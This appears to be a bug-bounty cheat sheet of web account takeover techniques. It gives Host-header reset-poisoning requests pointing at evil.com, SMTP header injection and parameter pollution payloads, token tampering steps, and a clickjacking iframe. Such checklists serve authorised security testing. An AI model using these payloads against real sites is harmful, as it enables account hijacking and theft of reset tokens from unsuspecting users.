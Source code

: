 ## Account Takeover Techniques

### Password Reset Functionalities
```
- Register an account as an attacker.
- Change password and intercept success response of password change.
- Register an account as a victim.
- Try to change password and intercept the response.
- Paste the attacker success response.
```
```
- Click forgot password and put your email.
- Intercept the request and add some headers with attacker control domain.
- Check email and see if password token comes with attacker control domain.
```
##### Headers
Try to change Host header.
```
Host: evil.com

Not working? Jsut double it.
Host: target.com
Host: evil.com
```
```
Host: target.tld?><a href=http://evil.com
```
Other Headers
```
X-Forwarded-Host:
X-Original-Url:
X-Forwarded-Server:
X-Host:
X-Rewrite-Url:
X-Originating-IP:
X-Forwarded-For:
X-Remote-IP:
X-Remote-Addr:
X-Client-IP:
```

Host Header Bypass Methods
```
GET /api/reset-password HTTP/1.1
Host: vulernable-website.com.evil.com

GET /api/reset-password HTTP/1.1
Host: vulernable-website.com?evil.com

GET /api/reset-password HTTP/1.1
Host: evil.com/vulernable-website.com

GET /api/reset-password HTTP/1.1
Host: evil.com%00vulernable-website.com
```

```
- Click forgot passowrd and enter attacker email.
- Intercept the response (Action > Do intercept > Response to this request) and looking for password reset token or code.
- If found, then do the same procedure for victim email. 
```

```
- Click forgot passowrd and enter attacker email.
- Go to email and click on password reset link. See carefully the password reset link, if the link contatin the email using parameter change it with victim email
  or use both email using HPP techniques.
- If email found in POST body, change it with victim email or use both attacker and victim email using HPP.
- If no email found, try SMTP Header Injection techniques.
```

```
- Issue a password reset token for atttacker@email.tld.
- Go to settings and change your email to victim@email.tld.
- Now go to attacker@email.tld's inbox and click on password reset link.
- See the link is working or not.

# Impact
Sometime web app doesn't care about email. User can create more than one account using same email with unique username. 
```
#### Session Puzzling/Session Overloading Attack
```
- Try to access victim's dashboard or profile page normaly which is accessible after login.
- Go to Forgot Password and request for password change behalf of victim.
- Now directly go to dashboard or profile page. If victim's dashboard or profile accessible then it is Session Puzzling/Session Overloading Attack.
```

#### With HTTP Parameter Pollution
```
- Go to password reset link, enter new password and intercept the request
- Add extra email parameter on the request
  email=victim@email.tld&email=attacker@email.tld
- If response success then see which account password has been changed
```

#### SMTP Header Injection
```
victim@mail.tld%0d%0acc:attacker@mail.tld

victim@mail.tld%0d%0abcc:attacker@mail.tld

email=victim@email.tld%20email=attacker@email.tld

email=victim@email.tld|email=attacker@email.tld

email="victim@mail.tld",email="attacker@mail.tld"

email=victim@email.tld:attacker@email.tld

{"email":["victim@email.tld","atracker@email.tld"]}
```

### Playing With Token
```
- Use attacker's valid token on Victim's account
- Completely remove the token
- Change it to 00000000000...
- Use null value
- Try expired token
- Try an array of old tokens
- Change 1 char at the begin/end to see if the token is evaluated
- Bruteforce token
```
### Pre-Account Takeover
**Suppose two features(Login via OAuth and email) are available and no email verification needed after registration.**
```
- Create an account using victim email.
- Suppose the victim create an account via OAuth(Login With Google) using same email.
- Now attacker is able to access the victim account.
```
*May be victim will not be able to create an account with this email(Email Already Exist)*

### Admin Panel Access
**Suppose no email verification needed after registration.**
```
- Try to find out other stuff's email of the company(Use hunter.io).
- Try to register with those email one by one and see it is possible to access stuff's account or admin panel or not.
```
*Sometime application uses username or firstname to create particular user's profile.*
*For example: https://site.com/user/bob/*
```
- Create an account and notice carefully application's naming convention.
- Change your account's username or firstname to some common name for admin panel i.e. admin, administrator, dashboard etc.
```

### Other Techniques
```
- Use unicode char jutsu to spoof email address
- Change request method (get, put, post etc) and/or Content Type (xml<->json) 
- Match bad response and replace with good one
- Use super long string
```

### Email Change
#### ClickJacking
```
If email can change via GET parameter then check is there any protection against ClickJacking.
<iframe src="http://example.com/change?email=attacker@mail.com"></iframe>
```
